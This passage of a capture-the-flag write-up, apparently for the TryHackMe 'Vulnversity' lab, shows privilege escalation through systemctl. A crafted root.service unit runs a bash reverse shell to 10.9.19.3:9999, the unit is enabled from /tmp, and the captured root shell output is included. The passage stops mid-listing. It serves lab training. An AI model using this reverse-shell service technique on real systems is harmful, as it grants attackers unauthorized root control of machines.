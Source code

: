 create root.service
```
[Unit]
Description=access root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.19.3/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
and enable root.service using systemctl
```
$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /tmp/root.service.
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
$ /bin/systemctl start root
```
create reverse connection in a new terminal and go to root directory
```
╭─twseptian@twsterlab ~/lab/THM/rooms/vulnversity 
╰─$ nc -lvp 9999                
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.201.124.
Ncat: Connection from 10.10.201.124:36448.
bash: cannot set terminal process group (20501): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# ls -la
ls -la
total 96
drwxr-xr-x  23 root root  4096 Jul 31  2019 .
drwxr-xr-x  23 root root  4096 Jul 31  2019 ..
drwxr-xr-x   2 root root  4096 Jul 31  2019 bin
drwxr-xr-x   3 root root  4096 Jul 31  2019 boot
drwxr-xr-x  17 root root  3700 Jun  1 22:54 dev
drwxr-xr-x  98 root root  4096 Aug  1  2019 etc
drwxr-xr-x   3 root root  4096 Jul 31  2019 home
lrwxrwxrwx   1 root root    33 Jul 31  2019 initrd.img -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x  22 root root  4096 Jul 31  2019 lib
drwxr-xr-x   2 root root  4096 Jul 31  2019 lib64
drwx------   2 root root 16384 Jul 31  2019 lost+found
drwxr-xr-x   3 root root  4096 Jul 31  2019 media
drwxr-xr-x   2 root root  4096 Feb 26  2019 mnt
drwxr-xr-x   2 root root  4096 Feb 26  2019 opt
dr-xr-xr-x 138 root root     0 Jun  1 22:54 proc
drwx------   4 root root  4096 Jul 31  2019 root
drwxr-xr-x  28 root root   980 Jun  1 22:54 run
drwxr-xr-x   2 root root 12288 Jul 31  2019 sbin
drwxr-xr-x   2 root root  4096 Jul 31  2019 snap
drwxr-xr-x   3 root root  4096 Jul 31  2019 srv
dr-xr-xr-x  13 root root     0 Jun  1 22:54 sys
drwxrwxrwt   9 root root  4096 Jun  2 00:17 tmp
drwxr-xr-x  10 root root  4096 Jul 31  2019 usr
drwxr-xr-x  14 root root  4096 Jul 31  2019 var
lrwxrwxrwx   1 root root    30 Jul 31  2019 vmlinuz -> boot/vmlinuz-4.4.0-142-generic
root@vulnuniversity:/# cd /root
cd /root
root@vulnuniversity:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Jul 31  2019 .
```